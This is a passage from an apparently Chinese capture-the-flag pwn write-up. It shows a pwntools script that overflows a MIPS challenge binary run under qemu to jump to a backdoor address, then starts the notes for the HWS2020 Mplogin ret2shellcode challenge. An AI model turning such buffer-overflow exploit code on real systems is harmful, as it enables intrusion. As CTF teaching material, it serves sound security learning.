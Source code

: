 ```bash
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch='mips'
context.os='linux'
context.log_level = 'debug'

p = process(["qemu-mipsel","-L","/usr/mipsel-linux-gnu/","./pwn"])
#p = process(["qemu-mipsel","-L","/usr/mipsel-linux-gnu/","-g","1234","./pwn"])
elf = ELF("./pwn")
ru('what is mips?\n')
backdoor=0x0400844
pl="a"*0x44+p32(backdoor)
sl(pl)
itr()
```

## HWS2020 Mplogin (ret2shellcode)

### 思路

一开始做这个题目的时候有些小问题，就是我按照习惯把文件名改成了 pwn，然后再第一步一直没有办法泄露栈地址，后来意识到附件里面还有一个.DS\_Store 文件

[![](assets/1705903019-734032823c7de8d907e243dece03a600.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192350-6293ba08-b786-1.png)  
这个文件是 macOS 系统用来存储特定文件夹的自定义显示设置和元数据的文件，所以应该是这个文件对栈空间有些影响，所以我们直接把整个文件夹的内容复制过去，然后正常做题就可以

[![](assets/1705903019-6e89a6f37ab31445bb4897e7615b9282.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192356-6666942a-b786-1.png)  
什么保护都没有

[![](assets/1705903019-3a94994d6afa95ac8a8912428e3d85a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192404-6aded3aa-b786-1.png)
